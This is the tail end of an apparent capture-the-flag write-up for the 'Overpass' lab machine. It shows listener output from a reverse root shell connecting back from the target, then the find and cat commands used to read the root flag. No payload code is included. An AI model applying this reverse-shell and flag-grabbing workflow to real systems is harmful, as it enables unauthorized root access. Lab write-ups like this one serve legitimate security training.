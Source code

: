 After about a minute or so, we should have our connection, and our root shell!

``` bash
connect to [10.2.19.186] from (UNKNOWN) [10.10.47.232] 56340
bash: cannot set terminal process group (2518): Inappropriate ioctl for device
bash: no job control in this shell
root@overpass-prod:~# 
```

Now we can print out the root flag.


``` bash
find / -name root.txt 2>/dev/null
/root/root.txt

cat /root/root.txt
```

___

## Success!

We've captured both Overpass flags!
